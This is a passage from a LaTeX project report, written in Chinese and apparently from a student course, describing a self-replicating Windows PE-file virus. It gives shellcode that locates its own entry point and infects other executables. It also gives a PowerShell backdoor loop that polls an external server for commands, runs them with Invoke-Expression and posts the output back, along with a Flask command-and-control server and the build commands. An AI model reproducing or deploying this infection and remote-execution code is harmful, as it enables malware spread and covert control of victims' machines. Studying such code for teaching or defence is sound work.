    codeAdr = *(DWORD *)(codeAdr + 0x28); // entry rva
    codeAdr = codeAdr + (DWORD)imageBase; 
    // Return back
    __asm {
__jmp_point:
        mov eax, 0x0
        add eax, imageBase
        cmp eax, imageBase
        je __code_end
        jmp eax
    }
__code_end:
    return;
}
    \end{lstlisting}  
    
    在上面的代码中,利用荷载代码链接和插入时总是作为程序入口这一点,利用 PEB 结构获取 imageBase。而在内存中,各 Headers 的位置关系,与 PE 文件中的关系是一样的。
    
    imageBase 处的第一个结构就是 Dos Header,通过前面提到的方法,就可以获取 Optional Header 的位置,得到当前程序入口的 RVA 地址,进而求出程序入口的 VA 地址。这一地址实质上就是 ShellCode 在内存中的起始地址 codeAdr。

    至于代码长度,我们利用了 C 语言中的``标签''。事实上,在 C 语言中,上述如 \lstinline{__code_end} 这样的标签,同 \lstinline{ShellCode} 这个静态函数指针一样,体现在机器码中都是 VA 常量。在操作系统将进程装载入内存时,它们就会作为常量在内存中固定下来。
    
    上面那段代码中间的内联汇编生成的机器码如下:

    \begin{lstlisting}
  0040103D: B8 EF 30 40 00     mov         eax,4030EFh
  00401042: 2B 85 B8 FD FF FF  sub         eax,dword ptr [ebp+FFFFFDB8h]
  00401048: 89 85 54 FC FF FF  mov         dword ptr [ebp+FFFFFC54h],eax
  0040104E: B8 E0 30 40 00     mov         eax,4030E0h
  00401053: 2B 85 B8 FD FF FF  sub         eax,dwoshrd ptr [ebp+FFFFFDB8h]
  00401059: 83 C0 01           add         eax,1
  0040105C: 89 85 50 FC FF FF  mov         dword ptr [ebp+FFFFFC50h],eax
    \end{lstlisting}
    
    上面的反汇编是使用 \verb|dumpbin| 获取的 PE 文件中的机器码的反汇编。实际内存中的机器码可能与之有些许差别。但 \lstinline{__code_end} 之类的位置一定会是一个 VA 常量。
    
    因为是常量,所以我们不能直接用 ShellCode 来指定 codeAdr (因为在传染后,作为额外强行插入的节,该常量会不在操作系统的控制范围内),而应该动态计算。通过 \lstinline{__code_end} $-$ \lstinline{__code_start},就可以求出 ShellCode 的实际长度。

    而之所以不将 \lstinline{__code_start} 作为标签放在函数最前面,而是将其赋值为 \lstinline{ShellCode} 这一函数指针,是因为在函数的开头,还存在一些``隐指令'',它的作用是初始化函数的堆栈指针:

    \begin{lstlisting}
  00401000: 55                 push        ebp
  00401001: 8B EC              mov         ebp,esp
  00401003: 81 EC A4 08 00 00  sub         esp,8A4h
    \end{lstlisting}

    jmp point (跳转预留字段) 的计算也是同理。只是由于立即数在 mov 指令机器码中从第 8 位开始,所以计算偏移时需要自加一。

    有了起始地址、大小、预留字段位置这三个信息后,通过 \ref{sec:insert-shellcode} 中的方式,便可以将 ShellCode 自身传染插入到另一个 PE 文件中,实现``病毒的自我复制''。
 
    \subsection{远程指令执行}
    远程指令执行是本项目的一个可选功能,其原理就是ShellCode在执行时会使用 \lstinline{CreateProcessA()} 创建一个新进程,这个进程作为客户端,持续从远端服务器获取待执行的指令,如果成功获取指令,则执行该指令,并将执行结果发回远端服务器。
    
    \subsubsection{客户端程序}
    由于实现网络操作的系统调用不在KERNEL32.DLL中,假如要使用这些函数的话,需要宿主程序也加载了网络库,会限制病毒的感染范围。所以,我们选择使用KERNEL32.DLL中的 \lstinline{CreateProcessA()} 函数,创建PowerShell进程执行一段脚本,实现上述功能。
    
    \begin{lstlisting}[language=PowerShell,caption={PowerShell后门脚本},label={lst:backdoor}]
while(1){
Invoke-RestMethod -UseBasicParsing -Uri "https://virus.xinyang.life/result" \
    -Method POST -Body @{r=$(Invoke-Expression \
$(Invoke-RestMethod -UseBasicParsing -Uri "https://virus.xinyang.life/" \
    -Method POST -TimeoutSec 60).c | Out-String) \
} \
-TimeoutSec 60 \
}
    \end{lstlisting}
    
    具体的PowerShell脚本如代码~\ref{lst:backdoor} 所示,为了尽可能减小代码的体积,脚本的可读性较差,故解释如下:脚本整体由3条指令构成,最内层指令为 \lstinline{Invoke-RestMethod},向服务器请求要执行的指令;获取到的指令作为 \lstinline{Invoke-Expression} 的参数执行;执行后返回的结果再交由 \lstinline{Invoke-RestMethod} ,发送回客户端。

    \subsubsection{服务端程序}
    服务端程序位于 \lstinline{src/server} 目录下。为了简便,使用Python和Flask开发了一个简单的服务端程序,功能仅有发送固定指令和记录ShellCode返回的执行结果。代码如 \ref{lst:backdoor-server} 所示。
    
    \begin{lstlisting}[language=python,caption={“后门”服务端程序},captionpos=b,label={lst:backdoor-server}]
from flask import Flask, request

app = Flask(__name__)

@app.route('/', methods=['POST'])
def command():
    return {"status":"ok", "c":"netstat -na;Start-Sleep -Seconds 5"}

@app.route('/result', methods=['POST'])
def result():
    with open('./result.txt', 'a+') as f:
        f.write(request.form["r"])
        f.write("---")
    return {}
    \end{lstlisting}
    
    为了便于配置和运行服务端程序,我们使用Docker打包了环境。只需要执行代码~\ref{lst:docker-server} 中的shell指令即可运行服务端。
    
    \begin{lstlisting}[language=bash,caption={使用Docker运行服务端},captionpos=b,label={lst:docker-server}]
cd src/server
docker build -t vserver:1 .
docker run -v /path/to/log/result.txt:/result.txt --name virus-server vserver
    \end{lstlisting}

    \section{其它细节}
    \subsection{编译方式}

    在不添加优化选项时,\lstinline{__forceinline} 并不会被编译器展开。需要通过 \verb|/Ob| 来指定展开等级,至少设置为 1。也可以直接使用 \verb|/O2| 编译优化选项。

    此外,ShellCode 实际上并没有使用任何的静态 API,使用的函数都是动态获取的。因此我们除了将其链接为 dll 外,也可以直接通过指定 entry 链接为 exe:

    \begin{lstlisting}[caption={链接方式},captionpos=b]
cl /c /GS- /Ob1 advance.c
rem 链接为 exe
link /entry:ShellCode /subsystem:console advance2.obj
rem 链接为 dll
link /dll advance2.obj
    \end{lstlisting}
    
    \subsection{调试技巧}

    在调试被感染程序时,需要将汇编指令与 shellcode 中的 C 语言指令对应起来。但被感染程序中的 shellcode 是插入篡改进去的,并没有相应的符号。我们使用了一种比较土的调试方式:

    往 C 语言代码中加入特定的 ASM 语句,用来辅助查找和对应。

    这一灵感来源于 OS 实验中 Bochs 的 Magic Break 语句:

    \begin{lstlisting}[language=C,caption={ASM TAG},captionpos=b]
#ifdef DEBUG_ASM
#define ASM_TAG __asm{ xchg bx, bx }
#else
#define ASM_TAG
#endif
    \end{lstlisting}

    通过这些语句,配合 dumpbin,可以大致定位我们想要调试的语句,方便断点的设置和观察。

    \subsection{函数隐指令}

    最开始,我们使用 \lstinline{__code_start} 标签来进行病毒复制。但我们发现,前面的隐指令是必须的,不然程序无法运行。

    于是我们最初选择将 \lstinline{__code_start} 减掉某个值作为代码段起点。将这个值设置为 StackOffset 宏定义。

    但是后来我们注意到函数隐指令的长度是变化的。除了与使用的栈空间大小有关外,还与内联汇编和程序使用的寄存器有关。
    
    比如,在添加了 ASM TAG 后,隐指令中会出现 \lstinline{push ebx}。

    比如,由于新增了后门的实现,后门病毒的隐指令相较于 advance,出现了 \lstinline{push edx}。
 
    \section{分工与贡献}
    
    李心杨: 实现了 Kernel32 API 的动态查找。并在 advance 病毒框架的基础上实现了后门添加。
    
    林锟扬: 实现了 junior, advance, advance2 的除动态查找外的其它部分。编写了辅助工具。
    
    上官景威:学习并整理PE文件的相关原理,参与了测试工作。
    
\end{document}